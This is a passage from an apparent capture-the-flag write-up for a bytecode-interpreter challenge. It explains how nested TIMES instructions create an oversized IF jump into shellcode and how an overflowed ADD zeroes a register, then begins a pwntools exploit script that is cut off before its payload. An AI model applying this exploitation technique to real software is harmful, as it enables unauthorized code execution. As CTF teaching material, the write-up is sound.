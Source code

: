 Now the problem is how to make the IF have such a large jump value. Since there isn't enough space in the 0x1000 bytes of the input buffer for that many bytecodes. We can achieve this thanks to the `TIMES` bytecode. This bytecode allows us to repeat an instruction up to 99 times by doing something like `TIMES 99 ADD 0xdeadbeef`, but that's still not enough. To write such a large number, we can do something like this: `TIMES 99 TIMES 99 TIMES 99 TIMES 99 ADD 0xdeadbeef`, and with a single line, we can write a very large value.  
Now it’s a matter of doing some math to write the offset to our shellcode and be able to execute it. One last thing we need to do is set the global variable `REGISTER` to zero before calling the `IF` to force the jump to the shellcode. This can be achieved with the line:  
```py
ADD(0x10000000000000000-0x9470da9321ce9c6)

``` 

## Code
```py
#!/bin/python3
from pwn import *

context.log_level = 'INFO'
context.terminal = ['remotinator', 'vsplit', '-x']
context.arch = 'amd64'

######################################################################################

process_name = './challenge_patched'
elf = context.binary = ELF(process_name)
libc = ELF('./libc.so.6')

HOST = "jmi.chal.hackthe.vote"
PORT = 1337

######################################################################################

gdb_script = f'''
    #set breakpoint pending on
    breakrva 0x2155    
    continue
    '''

######################################################################################

def connect():
    if args.REMOTE:
        print(f"[*] Connecting to {HOST} : {PORT}")
        p = remote(HOST, PORT, ssl=False)        
    elif args.GDB:
        print(f'[*] Debugging {elf.path}.')
        p = gdb.debug([elf.path], gdbscript=gdb_script, aslr=False)
    else:
        print(f'[*] Executing {elf.path}.')
        p = process([elf.path])
    return p

bytecode = b''

def ADD(valor):
    global bytecode  
    bytecode += b'ADD ' + str(valor).encode() + b'\n'  

def PRINT():
    global bytecode  
    bytecode += b'PRINT\n'  
```